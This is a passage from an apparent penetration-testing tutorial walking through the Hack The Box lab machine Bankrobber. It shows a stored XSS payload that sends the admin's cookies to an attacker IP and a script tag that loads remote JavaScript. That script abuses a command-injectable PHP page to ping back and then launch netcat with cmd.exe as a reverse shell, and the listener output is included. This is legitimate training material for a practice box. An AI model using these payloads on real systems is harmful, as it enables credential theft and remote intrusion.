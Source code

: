 # Exercise: Discovering XSS on Bankrobber

An nmap scan reveals that Bankrobber is a Windows box and has HTTP running on ports 80 and 443, SMB on port 445 and MariaDB on port 3306:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- bankrobber.htb -oA nmap/full-tcp
<SNIP>
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp open ssl/http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after: 2019-11-08T23:48:47
| MD5: a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open mysql MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

MariaDB is very similar to MySQL and uses the same SQL syntax. After navigating to the URL [http://bankrobber.htb](http://bankrobber.htb) we find a Bitcoin trading platform called E-coin.

![Home page of Bankrobber](../.gitbook/assets/0%20%281%29%20%282%29.png)

There is a login function and below that a place to register new accounts. If we register an account with username 'john' and password 'password' and then login, we are taken to a page that allows us to transfer E-coin to \(presumably\) another user using the ID of the user.

![Transfer E-coin function of Bankrobber](../.gitbook/assets/1%20%283%29.png)

If we right click on the page and select Inspect Element to go into the developer tools of the browser, we can navigate to the Storage tab and look at the Cookies that have been set. The cookies are:

```text
id: 3
password: cGFzc3dvcmQ%3D
username: am9obg%3D%3D
```

The username and password cookies are simply the Base64 encoded versions of "john" and "password" which you can verify for yourself. We can see that the id of the user is 3 and so it suggests that there are at least 2 other users \(1 and 2\) on the system.

If we submit a transaction by entering 100 as the amount, 2 as the id and a comment of "test", a popup reports "Transfer on hold. An admin will review it within a minute. After that he will decide whether the transaction will be dropped or not.".

This suggests that a person will be reviewing the transfer and so anything we put in the comment field is likely to be rendered when the admin views it. This makes the comment field a candidate for cross-site scripting. To test this, let us start a Python web server on our box:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
```

We can then create a new transaction and put the following HTML into the comment field:

```javascript
<img src=http://10.10.14.29/img.jpg />
```

This eventually hits the Python web server, and we get the request:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.70.254 - - [25/Feb/2021 10:38:08] code 404, message File not found
10.129.70.254 - - [25/Feb/2021 10:38:08] "GET /img.jpg HTTP/1.1" 404 -
```

So we know that XSS works. The first thing we can do is to steal the administrator's cookies. We know that the cookies used on the site simply consist of the username and password Base64 encoded. To get them we can use the JavaScript function document.cookie\(\) in the following way:

```javascript
<img src=x onerror=this.src="http://10.10.14.135/?c="+document.cookie />
```

This returns the base64 for both username and password to be "admin" and "Hopelessromantic":

```text
10.129.70.254 - - <SNIP> "GET /?c=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 200 -
```

After doing the SQL Injection to read source code \(see later in the SQL injection section\), you discover a php file called backdoorchecker.php that will execute a "dir" command supplied as POST parameter. However, the check only tests if the first three characters are equal to "dir". By adding a "\|" after "dir" you can add any other Windows command. The file backdoorchecker.php also checks that the request came from the same machine checking that the "REMOTE\_ADDR" is equal to "::1" the IPv6 localhost address.

To exploit backdoorchecker.php, you can use the XSS to do an SSRF attack. To validate that this will work, you will write a JavaScript file hosted from our machine and test a "ping" command. Writing a script attack.js as follows:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | ping -n 5 10.10.14.29";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

To check that the ping is being sent, you can start tcpdump to collect the ping packets which are of the type ICMP:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

To initiate the XSS you can use the script tag instead of the img tag. This will fetch and execute the script attack.js:

```javascript
<script src="http://10.10.14.135/attack.js"></script>
```

Once the script is fetched from the server, you should see tcpdump reporting the pings being sent to our box:

```bash
12:26:08.465546 IP bankrobber.htb > 10.10.14.135: ICMP echo request, id 1, seq 1, length 40
12:26:08.465571 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, id 1, seq 1, length 40
12:26:08.465586 IP bankrobber.htb > 10.10.14.135: ICMP echo request, id 1, seq 2, length 40
12:26:08.465592 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, id 1, seq 2, length 40
<SNIP>
```

We haven't dealt with exploitation and how to get access to an interactive session on a remote box, however we will quickly get a "reverse shell" on the Bankrobber box using Netcat. Netcat for windows can be downloaded from [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/). Take a copy of the nc64.exe and rename as nc.exe in your working directory.

As you are targeting a Windows box, you can provide access to netcat via SMB using a tool smbserver.py which is part of the Impacket tools.

{% hint style="info" %}
To install Impacket in the /opt directory, you can use:

`git clone https://github.com/SecureAuthCorp/impacket.git`
{% endhint %}

You can then run smbserver.py directly from /opt/impacket/examples/smbserver.py

\([https://github.com/SecureAuthCorp/impacket\](https://github.com/SecureAuthCorp/impacket\)\). To share a directory using smbserver you use the syntax:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo /opt/impacket/examples/smbserver.py share $(pwd) -smb2support
```

We can then modify attack.js to the following:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | \\\\10.10.14.135\\share\\nc.exe 10.10.14.135 6001 -e cmd.exe";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

We would start the webserver to serve the JavaScript file and netcat listener to receive the incoming connection for the reverse shell:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Bankrobber]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.135] from (UNKNOWN) [10.129.103.158] 49736
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.
C:\xampp\htdocs\admin>whoami
whoami
bankrobber\cortin
```

This is not the end of the box, we have a reverse shell as the user cortin but the next part is privilege escalation which involves a buffer overflow, something we will deal with in Chapter 6.

